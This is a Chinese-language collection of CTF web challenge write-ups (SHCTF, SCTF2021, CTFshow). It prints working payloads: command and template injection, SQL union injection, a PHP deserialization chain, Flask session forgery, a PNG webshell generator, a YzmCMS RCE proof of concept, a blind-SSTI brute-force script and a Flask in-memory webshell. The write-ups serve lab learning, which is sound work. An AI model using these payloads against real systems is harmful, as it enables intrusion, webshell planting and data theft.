










# Web

## **SHCTF** 

### [week1]ez_flask

查看robots.txt，看到提示

```
User-agent: *
Disallow: /s3recttt
```

访问/s3recttt，得到源代码

```python
import os
import flask
from flask import Flask, request, send_from_directory, send_file

app = Flask(name)

@app.route('/api')
def api():
    cmd = request.args.get('SSHCTFF', 'ls /')
    result = os.popen(cmd).read()
    return result
    
@app.route('/robots.txt')
def static_from_root():
    return send_from_directory(app.static_folder,'robots.txt')
    
@app.route('/s3recttt')
def get_source():
    file_path = "app.py"
    return send_file(file_path, as_attachment=True)

if name == 'main':
    app.run(debug=True)
```

直接注入即可 

```
/api?SSHCTFF=cat /flag
```


### [Week1] MD5 Master

```php
<?php
highlight_file(__file__);

$master = "MD5 master!";

if(isset($_POST["master1"]) && isset($_POST["master2"])){
    if($master.$_POST["master1"] !== $master.$_POST["master2"] && md5($master.$_POST["master1"]) === md5($master.$_POST["master2"])){
        echo $master . "<br>";
        echo file_get_contents('/flag');
    }
}
else{
    die("master? <br>");
}

```

工具：fastcoll

由代码可知，脚本通过

```
$master.$_POST["master1"]
```

将**MD5 master!**与post传入的**master1**和**master2**分别拼接后进行md5的强比较，要求拼接后的字符不相等且md5相等

工具使用方法：[教程](https://blog.csdn.net/m0_68483928/article/details/141252221)

md5转换php脚本：

```php
<?php 
function  readmyfile($path){
    $fh = fopen($path, "rb");
    $data = fread($fh, filesize($path));
    fclose($fh);
    return $data;
}
echo '二进制md5加密 '. md5( (readmyfile("1_msg1.txt")));

echo  'url编码 '. urlencode(readmyfile("1_msg1.txt"));

echo '二进制md5加密 '.md5( (readmyfile("1_msg2.txt")));

echo  'url编码 '.  urlencode(readmyfile("1_msg2.txt"));
```

*复制粘贴计算容易出问题*，故使用php脚本

计算结果删除掉MD5 master!后将结果post即可得到flag

### [Week1] jvav

显示在线执行java代码

写一个java脚本执行系统命令即可

官方题解：

```java
import java.io.BufferedReader;
import java.io.InputStreamReader;

class demo{
    public static void main(String[] args) {
        try {
            Process process = Runtime.getRuntime().exec("cat /flag");
            BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
            String line;
            while ((line = reader.readLine()) != null) {
                System.out.println(line);
            }
            process.waitFor();
            reader.close();
        } catch (Exception e) {
        }
    }
}
```

### [Week1] ez_gittt

查看源码发现有暗示

```
<!--你说这个Rxuxin会不会喜欢把自己的秘密写到git之类什么的--> 
```

dirsearch扫一下发现网站存在git泄漏，用Githack将git打包下载下来

查看log发现该版本去除了flag，需要进行版本回滚




得到flag

### [Week1]单身十八年的手速

官方题解：需要点击超过520次拿到flag，查看页面源代码，引用了game.js，查看game.js的内容，发现是混淆过后的js，无需去混淆，直接定位520的hex值0x208，发现后面就是**alert**了一段字符串，base64解密拿到flag，有经验的可以直接定位**alert**


### [Week1] 蛐蛐？蛐蛐！

查看网页源代码，发现有暗示

```html
<!--听说，k1留了fault不想让你看到的源码在source.txt中-->
```

查看源码

```php
<?php
if($_GET['ququ'] == 114514 && strrev($_GET['ququ']) != 415411){
    if($_POST['ququ']!=null){
        $eval_param = $_POST['ququ'];
        if(strncmp($eval_param,'ququk1',6)===0){
            eval($_POST['ququ']);
        }else{
            echo("可以让fault的蛐蛐变成现实么\n");
        }
    }
    echo("蛐蛐成功第一步！\n");

}
else{
    echo("呜呜呜fault还是要出题");
}
```

观察源码

第一步根据php特性通过get传入**114514a**或者通过科学计数法即可绕过

第二步通过分号隔断即可，post传入**ququ=ququk1;system('cat /flag')**

### [Week1] poppopop

这个真不会，先放官方题解：

```php
<?php
class SH {

  public static $Web = false;
  public static $SHCTF = false;
}
class C {
  public $p;

  public function flag()
  {
    ($this->p)();
  }
}
class T{

  public $n;
  public function __destruct()
  {

    SH::$Web = true;
    echo "11";
  }
}
class F {
  public $o;
  public function __toString()
  {
    SH::$SHCTF = true;
    $this->o->flag();
    return "其实。。。。,";
  }
}
class SHCTF {
  public $isyou="system";
  public $flag="cat /f*";
  public function __invoke()
  {
    if (SH::$Web) {

      ($this->isyou)($this->flag);
      echo "小丑竟是我自己呜呜呜~";
    } else {
      echo "小丑别看了!";
    }
  }
}
$a =new T();
$a->n=new F();
$a->n->o=new C();
$a->n->o->p=new SHCTF();
echo base64_encode(serialize($a));
```


### [Week2]guess_the_number

查看网页源码，发现/s0urce，访问获得题目源码

```html
<!-- 看源码是做题的好习惯 -->  
<!-- /s0urce -->  
```

```python
import flask
import random
from flask import Flask, request, render_template, send_file

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('index.html', first_num = first_num)  

@app.route('/source')
def get_source():
    file_path = "app.py"
    return send_file(file_path, as_attachment=True)
    
@app.route('/first')
def get_first_number():
    return str(first_num)
    
@app.route('/guess')
def verify_seed():
    num = request.args.get('num')
    if num == str(second_num):
        with open("/flag", "r") as file:
            return file.read()
    return "nonono"
 
def init():
    global seed, first_num, second_num
    seed = random.randint(1000000,9999999)
    random.seed(seed)
    first_num = random.randint(1000000000,9999999999)
    second_num = random.randint(1000000000,9999999999)

init()
app.run(debug=True)
```

可以看到，题目给出了由random模块生成的第一个数，求出第二个数即可获得flag

**random伪随机数生成的数，是由seed进行数学运算得到的，题目设置了伪随机数的seed，且长度不大，因此只需要爆破出seed即可预测下一个数**

官方题解：

```python
import random

first_num = int(input(""))
for i in range(1000000,9999999,1):
    random.seed(i)
    num = random.randint(1000000000,9999999999)
    if num == first_num:
        second_num = random.randint(1000000000,9999999999)
        print("second_num: " + str(second_num))
        exit()
```

### 

### [Week2]入侵者禁入

```python
from flask import Flask, session, request, render_template_string

app = Flask(__name__)
app.secret_key = '0day_joker'

@app.route('/')
def index():
    session['role'] = {
        'is_admin': 0,
        'flag': 'your_flag_here'
    }
    with open(__file__, 'r') as file:
        code = file.read()
    return code

@app.route('/admin')
def admin_handler():
    try:
        role = session.get('role')
        if not isinstance(role, dict):
            raise Exception
    except Exception:
        return 'Without you, you are an intruder!'
    if role.get('is_admin') == 1:
        flag = role.get('flag') or 'admin'
        message = "Oh,I believe in you! The flag is: %s" % flag
        return render_template_string(message)
    else:
        return "Error: You don't have the power!"

if __name__ == '__main__':
    app.run('0.0.0.0', port=80)
```

代码审计后可知，这是一道关于session伪造的题目，已知**secret_key = '0day_joker'**

工具：[flask-session-cookie-manager](https://github.com/noraj/flask-session-cookie-manager)

```cmd
D:\tools\exploit\python\flask-session-cookie-manager>python flask_session_cookie_manager3.py decode -c "eyJyb2xlIjp7ImZsYWciOiJ5b3VyX2ZsYWdfaGVyZSIsImlzX2FkbWluIjowfX0.ZvZ8IQ.B9Q1a7gFQvzs4Q3bGldXuiGHULg" -s "0day_joker"

D:\tools\exploit\python\flask-session-cookie-manager>python flask_session_cookie_manager3.py encode -s "0day_joker" -t "{'role': {'flag': '{{lipsum.globals["os"].popen("ls").read()}}', 'is_admin': 1}}"

D:\tools\exploit\python\flask-session-cookie-manager>python flask_session_cookie_manager3.py encode -s "0day_joker" -t "{'role': {'flag': '{{lipsum.globals["os"].popen("ls /").read()}}', 'is_admin': 1}}"

D:\tools\exploit\python\flask-session-cookie-manager>python flask_session_cookie_manager3.py encode -s "0day_joker" -t "{'role': {'flag': '{{lipsum.globals["os"].popen("cat /flag").read()}}', 'is_admin': 1}}"
```

通过session伪装使**is_admin==1**并通过**ssti注入**即可得到flag

ssti注入语句

```python
{'role': {'flag': '{{lipsum.globals["os"].popen("cat /flag").read()}}
```


### [Week2]自助查询

**sql注入语句拼接题**

题目给出的语句：

```sqlite
SELECT username,password FROM users WHERE id = ("
```

通过sql联合注入即可解决本题

第一步：**查询数据库名**

```sqlite
-1") union select 1,database()
```

可得

```sqlite
| Username | Password |
| -------- | -------- |
| 1        | ctf      |
```

第二步：**查询表名**

```sqlite
-1") union select  1,table_name from information_schema.tables where table_schema='ctf'
```

可得

```sqlite
| Username | Password |
| -------- | -------- |
| 1        | flag     |
| 1        | users    |
```

第三步：**查询列名**

```sqlite
1") union select 1,column_name from information_schema.columns where table_schema='ctf' and table_name='flag'
```

可得

```sqlite
| Username | Password  |
| -------- | --------- |
| admin    | admin123  |
| 1        | id        |
| 1        | scretdata |
```

第四步：**查询列表中的内容**

```sqlite
-1") union select 1,group_concat(id,0x7e,scretdata) from ctf.flag
```

可得

```sqlite
| Username | Password                                                  |
| -------- | --------------------------------------------------------- |
| 1        | 1~被你查到了, 果然不安全,2~把重要的东西写在注释就不会忘了 |
```

直接查询注释即可得到flag

```sqlite
-1") union select 1,column_comment from information_schema.columns
```

### [week3]拜师之旅·番外

这是一道图片上传题，以下是对常见图片上传漏洞的归纳


当上传一张图片成功后,查看图片可以发现是通过GET传文件路径来显示的,考虑存在include包含。并且根据题目描述尝试下载图片回来对比会发现上传与下载的图片数据不一致,存在二次渲染

此时需要构造一张不被渲染掉的png图片马，以下是国外大佬的生成脚本：

```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);
           
$img = imagecreatetruecolor(32, 32);
 
for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}
 
imagepng($img,'1.png');  //要修改的图片的路径
 
/* 木马内容
<?$_GET[0]($_POST[1]);?>
 */ 
?>
```

将构造好的图片马上传,并在查看图片页面进行命令执行

GET  :靶机地址/?image=/upload/293146324.png`&0=system`

POST:`1=tac /f*`

执行一次后再重新下载图片回来即可得到回显 

 

### [week3]小小cms

在网上找到现成YzmCMS的REC漏洞的`POC`，直接bp执行即可得到flag

```php
POST /yzmcms-7.0/pay/index/pay_callback HTTP/1.1
Host: 靶机地址
Cookie: ;XDEBUG_SESSION=19079
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

out_trade_no[0]=eq&out_trade_no[1]=cat /flag&out_trade_no[2]=exec

```

*POST:out_trade_no[0]=eq&out_trade_no[1]=`cat /flag`&out_trade_no[2]=exec*

关于该漏洞的文章：[点击打开](https://blog.csdn.net/shelter1234567/article/details/138524342)

### [week3]love_flask

源码如下：

```python
from flask import Flask, request, render_template_string
app = Flask(__name__)

# 定义根路由（'/'）的处理函数
@app.route('/')
def pretty_input():
    # 返回渲染后的html模板字符串内容，这里假设html_template是在别处定义好的包含HTML内容的模板字符串
    return render_template_string(html_template)

# 定义'/namelist'路由的处理函数，该路由只接受GET方法请求
@app.route('/namelist', methods=['GET'])
def name_list():
    # 从GET请求的参数中获取名为'name'的值
    name = request.args.get('name')

    # 根据获取到的'name'值创建一个简单的HTML片段，其中包含一个<h1>标签和问候语
    template = '<h1>Hi, %s.</h1>' % name
    # 使用render_template_string函数对创建的HTML片段进行渲染
    rendered_string = render_template_string(template)
    if rendered_string:
        # 如果渲染成功，返回表示成功将名字写入数据库的消息（这里实际可能并没有真正写入数据库的操作，只是模拟这种反馈）
        return 'Success Write your name to database'
    else:
        # 如果渲染失败，返回'Error'
        return 'Error'

# 当脚本作为主程序运行时（即模块名为'__main__'）
if __name__ == '__main__':
    # 在本地的8080端口启动Flask应用
    app.run(port=8080)
```

通过代码，我们可知这道题是一道ssti模板注入的题目，但由于没有return，ssti的结果没有回显。

我们可以通过 `url_for` 的一些内部机制来动态导入 `os` 模块，并执行 `popen('ls')` 然后读取结果，最后将其关联到一个特定的 URL 路由 `/1333337` 上

Payload:?name={{url_for.__globals__.current_app.add_url_rule('/1333337',view_func=url_for.__globals__.__builtins__['__import__']('os').popen('`cat /flag`').read)}}

访问路由/1333337查看回显，得到flag

**官方题解：**

题解一：时间盲注。

因为渲染失败会返回500，所以可以先爆出eval

```python
/namelist?name={{().__class__.__base__.__subclasses__()[{{int(100-200)}}].__init__.__globals__['__builtins__']['eval']('__import__("time").sleep(3)')}}
```


接着通过构造延时来爆flag

```python
import requests
import time
flag ='SHCTF{'
table = '-ABCDEFabcdef0123456789'
url = 'http://210.44.150.15:25528/namelist?name='
for len in range(7,43):
    for i in table:
      ii = flag +i
      start_time = time.time()
      data = "{{"+"().__class__.__base__.__subclasses__()[100].__init__.__globals__['__builtins__']['eval']('__import__(\"os\").popen(\"if [ $(head -c {} /flag) = {} ]; then sleep 2; fi\").read()')".format(len,ii) +"}}"
      #print(data)
      url1 = url + data
      r = requests.get(url1)
      end_time = time.time()
      response_time = end_time - start_time
      if response_time >= 2:
          flag = flag +i
          print(flag)
      else:
          continue
print(flag+'}')
```

第二种：内存马  [参考文章](https://xz.aliyun.com/t/10933?time__1311=CqjxRQiQqQqqlxGg6QGCDcmQD80rdDCbAeD)

内存马无需上传文件也不生成文件。内存马通过动态注册一个路由来作为执行命令参数的入口。

```python
 {{url_for.__globals__['__builtins__']['eval']("app.add_url_rule('/shell', 'shell', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read())",{'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],'app':url_for.__globals__['current_app']})}}
```


得到flag


## **SCTF2021**

### Loginme(本地访问+Gin模板注入)

查看附件，本题是基于go语言开发的Web框架Gin



审阅代码

main.go

```go
package main

import (
	"html/template"
	"loginme/middleware"
	"loginme/route"
	"loginme/templates"

	"github.com/gin-gonic/gin"
)

//Gin是一个使用Go开发的web框架
func main() {
	gin.SetMode(gin.ReleaseMode)	//选择release模式
	r := gin.Default()	//创建实例
	templ := template.Must(template.New("").ParseFS(templates.Templates, "*.tmpl"))	//模板解析
	r.SetHTMLTemplate(templ)	//该方法会gin实实例绑定一个模板引擎(内部其实是设置了engine的HTMLRender属性)，也就是模板渲染
	// 通过use设置全局中间件
	// 设置日志中间件，主要用于打印请求日志
	r.Use(gin.Logger())
	// 设置Recovery中间件，主要用于拦截paic错误，不至于导致进程崩掉
	r.Use(gin.Recovery())
	//一个新的路由
	authorized := r.Group("/admin")
	//调用函数middleware.LocalRequired()，其实是个waf
	authorized.Use(middleware.LocalRequired())
	{
		authorized.GET("/index", route.Login)
	}

	r.GET("/", route.Index)
	r.Run(":9999")	//运行服务器，监听9999端口
}

```

通过题目我们可知该题第一步要求本地用户访问，意味着我们需要修改请求头伪造本地用户

通过审阅代码可知，这段代码首先是创建了一个gin实例，然后是在`/admin`路由下，调用`middleware.LocalRequired()`，如下

```go
	authorized.Use(middleware.LocalRequired())
	{
		authorized.GET("/index", route.Login)
	}

```

接着我们进一步跟进，打开middleware文件夹中的middleware.go

```go
package middleware

import (
	"github.com/gin-gonic/gin"
)

func LocalRequired() gin.HandlerFunc {
	return func(c *gin.Context) {
		if c.GetHeader("x-forwarded-for") != "" || c.GetHeader("x-client-ip") != "" {
			c.AbortWithStatus(403)
			return
		}
		ip := c.ClientIP()
		if ip == "127.0.0.1" {
			c.Next()
		} else {
			c.AbortWithStatus(401)
		}
	}
}

```

由代码可知，请求头中不能有`x-forwarded-for`或者`x-client-ip`，不然返回403。同时还使用`ClientIP()`，用来判断ip是否等于127.0.0.1

**这个可以通过`X-Real-IP:127.0.0.1`进行绕过**



绕过这个之后，继续分析

```go
authorized.Use(middleware.LocalRequired())
	{
		authorized.GET("/index", route.Login)
	}
```

接下来跳到`route.Login`，进一步跟进打开route文件夹中的route.go文件

```go
func Login(c *gin.Context) {
	idString, flag := c.GetQuery("id")	//gin的获取url query参数
	if !flag {
		idString = "1"
	}
	id, err := strconv.Atoi(idString)	//用于将字符串类型转换为int类型，整了之后，id就是int类型的数据了
	if err != nil {		//当出现不等于nil的时候，说明出现某些错误了，这个地方是调用方法出错的时候应该怎么做
		id = 1
	}
	TargetUser := structs.Admin	//一个结构体
	for _, user := range structs.Users {		//循环，看id等于几，然后将TargetUser赋值
		if user.Id == id {
			TargetUser = user
		}
	}

	age := TargetUser.Age
	if age == "" {
		age, flag = c.GetQuery("age")
		if !flag {
			age = "forever 18 (Tell me the age)"
		}
	}

	if err != nil {
		c.AbortWithError(500, err)
	}

	html := fmt.Sprintf(templates.AdminIndexTemplateHtml, age)	//格式化字符串并赋值给新串
	if err != nil {
		c.AbortWithError(500, err)
	}
	//Parse()方法用来解析、评估模板中需要执行的action，其中需要评估的部分都使用{{}}包围，并将评估后(解析后)的结果赋值给tmpl。
	tmpl, err := template.New("admin_index").Parse(html)
	if err != nil {
		c.AbortWithError(500, err)
	}
	//将对象实例应用到已经解析的tmpl模板
	tmpl.Execute(c.Writer, TargetUser)
}

```

由代码可知，这一段代码会从url链接中获得参数id，同时还定义了一个名为`TargetUser`的结构体，其源代码放在`structs`文件夹中，打开structs.go

```go
var Users = []UserInfo{
	{
		Id:       1,
		Username: "Grandpa Lu",
		Age:      "22",
		Password: "hack you!",
	},
	{
		Id:       2,
		Username: "Longlone",
		Age:      "??",
		Password: "i don't know",
	},
	{
		Id:       3,
		Username: "Teacher Ma",
		Age:      "20",
		Password: "guess",
	},
}

var Admin = UserInfo{
	Id:       0,
	Username: "Admin",
	Age:      "",
	Password: "flag{}",
}

```

在之后，会将传入的id和users中的id进行对比，id=0时，Username=“Admin”

接下来传参age，因为Admin中的`Age`默认是空的，所以会执行age传参:

```go
if age == "" {
		age, flag = c.GetQuery("age")
		if !flag {
			age = "forever 18 (Tell me the age)"
		}
	}
```

将age格式化后赋值给html：

```go
html := fmt.Sprintf(templates.AdminIndexTemplateHtml, age)	//格式化字符串并赋值给新串
```

接下来对html进行渲染：`Parse(html)`

```go
tmpl, err := template.New("admin_index").Parse(html)
```

go语言模板渲染支持传入一个结构体的实例来渲染它的字段，就有可能造成信息泄露



而在go语言中使用的是`{{.name}}`代表要应用的对象，所以可以让`age={{.Password}}`，得到想要的flag

```go
var Admin = UserInfo{
	Id:       0,
	Username: "Admin",
	Age:      "",
	Password: "flag{}",
}
```



原文链接：[csdn](https://blog.csdn.net/RABCDXB/article/details/123339098?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522B722EFF4-10D1-49BD-B613-CE6E0E5AFEC0%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=B722EFF4-10D1-49BD-B613-CE6E0E5AFEC0&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-1-123339098-null-null.142^v100^pc_search_result_base1&utm_term=%5Bsctf%202021%5Dloginme&spm=1018.2226.3001.4187)

## **CTFshow**

### **信息收集**：

#### Web 1-5

- 查看网页源代码
- 抓个包看有没有藏东西
- 查看robots.txt
- phps源码泄露，访问index.phps，通过其源码泄露，在其中找到flag

#### Web6

网页提示下载源码查看，访问url/www.zip得到源码文件

解压文件我们得到


打开fl00g.txt，没有我们想要的flag

打开index.php

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-01 14:37:13
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-01 14:42:44
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/
//flag in fl000g.txt
echo "web6:where is flag?"
?>
```

显示flag in fl00g.txt

直接访问url/fl00g.txt得到flag

#### web7

git泄露，访问url/.git即可得到flag

#### web8

svn泄露，访问url/.git即可得到flag

#### web9

vim缓存信息泄露，访问url/index.php.swp，打开下载的index.php.swp即可得到flag

#### web10

根据hint查看cookie可以看到

> cookie:flag=ctfshow%7B3ac14c03-64d1-41aa-9328-c97bcceeb840%7D

进行url解码即可得到flag


#### web11

域名解析

我们可以通过nslookup来进行域名解析查询

```
nslookup -qt=格式 URL
```

```
nslookup -qt=any URL 
//遍历所有格式
```

```
nslookup -qt=TXT URL
//查询txt格式
```

#### web12

hint：有时候网站上的公开信息，就是管理员常用密码

先用dirsearch扫一下



访问admin，要求我们输入管理员账号密码，根据后台路径我们可以猜测账号为`admin`

回到主页，在网页的底部我们可以看到一个电话`Help Line Number : 372619038`

猜测电话为管理员密码，输入后成功得到flag

#### web13

在页面底部可以看到一个document


点击发现下载了一个document.pdf文件，文件里有后台的地址和账号密码

d

登录后台即可得到flag

#### web14

